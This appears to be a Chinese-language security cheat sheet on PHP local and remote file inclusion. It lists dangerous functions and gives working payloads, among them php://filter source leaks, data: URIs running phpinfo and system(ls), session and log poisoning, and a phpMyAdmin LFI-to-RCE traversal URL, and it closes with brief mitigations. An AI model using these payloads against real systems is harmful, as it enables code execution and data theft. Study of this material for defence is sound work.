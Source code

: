 # File Inclusion  
直接將包含文件作為xxx數據流來解析，場景就是攻擊者能控包含文件的變量  
常見危險函式：  
PHP: `include()`, `include_once()`, `require()`, `require_once()`, `fopen()`, `readfile()`  
JSP: `java.io.FileReader()`  
ASP: `includefile`  
php包含一個文件，會將該文件內容當作php代碼執行，因此不受檔名類型影響。  

# LFI  
能夠打開本地文件  

# RFI  
包含遠程文件，危害較大，但條件更嚴苛  
`php.ini`中設置  
1. allow_url_fopen = on (default: on)  
2. allow_url_include = on (default: off)  

# 包含手勢  
1. php偽協議  
```php
php://input
// 條件：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// 爆源碼
?file=php://filter/read=convert.base64-encode/resource=file.php

phar://path.zip/file.php
// php5.3.0up, 解析壓縮檔案

zip://path.zip%23file.php
// php5.3.0up, 功能與phar://一樣, 但需要指定絕對路徑, 而且要將#編碼成%23

data:URL schema
// php5.2up, php.ini中兩個設置都要on
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system(ls);?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b (base64編碼phpinfo)
```  
2. include session  
session內容可控，session路徑已知...  
session路徑可以透過phpinfo中`session_save_path`得知  
常見存放位置：  
```php
/var/lib/php/sess_xxxxx
/var/lib/php/sessions/sess_xxxx
/tmp/sess_xxxxxx
/tmp/sessions/sess_xxxxx
```  
實際案例：  
phpmyadmin從LFI漏洞到RCE  
```php
xxx/phpmyadmin/index.php?target=xxx.php%253F/../../../../../var/lib/php/sessions/sess_xxxxxx
```  
3. include log  
log是否可讀  
以apache為例，request會被寫入`access.log`，錯誤就寫入`error.log`，默認儲存在`/var/log/apache2/`  
所以應用場景先透過配置文件得到路徑，還需要注意請求會不會被編碼，可以透過burp修改再送出，最後再包含log即可  
4. include ssh log  
是否可讀？  
默認路徑在`/var/log/apache2/access.log`,`/var/log/apache2/error.log`  
```php
ssh '<?php phpinfo();?>'@remotehost
// phpinfo代碼會出現在log裡，在進行include就好
```  
5. include environ  
6. include fd  
7. include temp file  
8. include uploaded file  

# 防禦手勢  
稍微總結一下上面的條件，可以得到下面mitigation的手法  
* php `open_basedir`  
* read permission  
* 過濾危險字符
